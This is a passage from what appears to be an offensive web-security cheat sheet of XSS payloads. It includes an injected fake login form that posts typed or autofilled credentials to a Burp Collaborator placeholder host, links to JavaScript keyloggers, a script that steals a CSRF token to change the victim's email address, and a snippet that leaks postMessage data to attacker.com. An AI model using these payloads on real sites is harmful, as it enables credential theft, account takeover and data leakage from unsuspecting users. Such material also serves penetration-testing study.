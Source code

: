 ```javascript
<b>Username:</><br>
<input name=username id=username>
<b>Password:</><br>
<input type=password name=password onchange="if(this.value.length)fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

When any data is introduced in the password field, the username and password is sent to the attackers server, even if the client selects a saved password and don't write anything the credentials will be ex-filtrated.

### Keylogger

Just searching in github I found a few different ones:

* [https://github.com/JohnHoder/Javascript-Keylogger](https://github.com/JohnHoder/Javascript-Keylogger)
* [https://github.com/rajeshmajumdar/keylogger](https://github.com/rajeshmajumdar/keylogger)
* [https://github.com/hakanonymos/JavascriptKeylogger](https://github.com/hakanonymos/JavascriptKeylogger)
* You can also use metasploit `http_javascript_keylogger`

### Stealing CSRF tokens

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/email',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/email/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

### Stealing PostMessage messages

```markup
<img src="https://attacker.com/?" id=message>
<script>
 window.onmessage = function(e){
 document.getElementById("message").src += "&"+e.data;
</script>
```
